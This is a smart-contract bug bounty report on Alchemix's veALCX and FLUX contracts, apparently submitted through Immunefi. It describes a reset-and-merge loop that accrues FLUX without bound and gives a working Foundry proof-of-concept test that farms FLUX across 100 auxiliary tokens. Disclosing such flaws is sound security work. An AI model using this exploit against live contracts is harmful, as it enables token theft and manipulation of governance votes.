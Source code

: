 
# Undound FLUX accrual through reset and merge

Submitted on May 20th 2024 at 05:17:59 UTC by @DuckAstronomer for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31481

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Vulnerability Details
The attacker can accrue FLUX indefinitely by following a loop: first, they call `Voter.reset()` to accrue FLUX for the current veALCX, then transfer the balance from that veALCX to a new veALCX using `veALCX.merge(oldId, newId)`, followed by claiming FLUX for the new veALCX. This process can be repeated multiple times to keep accruing FLUX continuously.

FLUX can be accrued by calling `Voter.reset()` once in an epoch for the current tokenId.

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L191

However, it's possible to transfer veALCX balance to a new tokeId by calling `veALCX.merge()`. This allows to claim FLUX one more time with `Voter.reset()`.

## Impact Details
Flux token allows to boost voting power. Unbounded Flux accrual allows to significantly change the voting results. 



## Proof of Concept
Poc scenario:
1. The attacker mints the main veALCX with 1000 BAL tokens.
2. The attacker mints 100 more auxiliary veALCX with 10 wei of BAL each.
3. The loop begins.
4. In the loop, the attacker calls `Voter.reset()` to accrue FLUX amount.
5. The attacker immediately transfers the balance from veALCX from step 3 to a yet unused auxiliary veALCX by calling `veALCX.merge(lastId, currentId)`.
6. Go back to step 3.

To run the PoC, place the code below in the `PoC.t.sol` file and execute the command: `forge test --mp src/test/PoC.t.sol --fork-url 'URL'`.

```
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract Poc is BaseTest {
    function setUp() public {
        setupContracts(block.timestamp);
    }

    // Run as: forge test --mp src/test/Poc.t.sol --fork-url 'URL'
    function test_poc() public {
        address bad = address(1);

        uint256 NUMBER_ITER = 100;

        // The bad guy mints the main veALCX using 1000 BAL
        uint256 tokenId_bad = createVeAlcx(bad, 1000e18, MAXTIME, false);
        
        // The bad guy mints many auxiliary veALCX tokens using 10 wei of BAL
        uint256[] memory tokenIds = new uint256[](NUMBER_ITER);
        for (uint256 i; i < NUMBER_ITER; i++)
            tokenIds[i] = createVeAlcx(bad, 10, MAXTIME, false);

        hevm.startPrank(bad);

        // This is how much Flux the bad guy should accrue
        // without cheating.
        uint256 noCheating = veALCX.claimableFlux(tokenId_bad);

        // The bad guy accrues Flux in a loop
        // by calling Voter.reset() and then transferring balance to a new auxiliary veACLX by calling merge(last,current).
        uint256 lastId = tokenId_bad;
        for (uint256 i; i < NUMBER_ITER; i++) {
            uint256 currentId = tokenIds[i];

            uint256 beforeFlux = IERC20(flux).balanceOf(bad);

            // Accrue Flux when resetting
            // https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L191
            voter.reset(lastId);
            flux.claimFlux(lastId, veALCX.claimableFlux(lastId));

            uint256 afterFlux = IERC20(flux).balanceOf(bad);

            assertGt(afterFlux, beforeFlux);

            // Merge last->current, keep the wheel spinning
            veALCX.merge(lastId, currentId);

            lastId = currentId;
        }
        
        hevm.stopPrank();
        
        // The bad guy accrued after the attack.
        uint256 realFlux = IERC20(flux).balanceOf(bad);

        // The bad guy gets much more
        assertGe(realFlux, NUMBER_ITER*noCheating);
    }
}
```